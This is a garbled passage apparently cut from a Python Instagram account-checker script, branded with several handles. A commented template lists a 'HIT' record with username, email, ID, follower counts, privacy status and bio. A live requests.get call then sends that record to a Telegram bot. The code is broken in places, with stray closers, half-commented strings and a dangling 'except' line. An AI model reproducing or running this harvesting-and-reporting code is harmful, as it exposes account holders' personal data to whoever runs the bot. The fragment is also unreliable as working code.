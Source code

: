 🚫 𝐁𝐘 ➠ @pphjp @hhrr13r @eaduqe  """)
#(f'''
# ☞ ❀♚♛♜♟♞♝♔♖♙♘♗✿✪۩❥☜
# HE = {name}
# HIT☞ {v} ☜
# NAME ☞ {nam}    
# USER_NAME ☞ {user}  
# EMAIL ☞ {email}   
# ID ☞ {id}   
# fOLLOREWS  ☞ {Follos}   
# FOLLOWING ☞ {Follon}
# DATA ☞ {date}   
# POST ☞ {Post}  
# REST ☞ {rest}   
# PRVIATE ☞ {isp}   
# BIO ☞ {bio}   
# LINK ☞ https://www.instagram.com/{user} 
# {n}  
# ★★༺༽@pphjp༼༻★★
#♘𝐁𝐘 ☞@pphjp @hhrr13r @eaduqe''')
 				requests.get("https://api.telegram.org/bot"+str(token)+"/sendMessage?chat_id="+str(ID)+"&text="+str(tlg))
#except UnboundLocalError as 
 				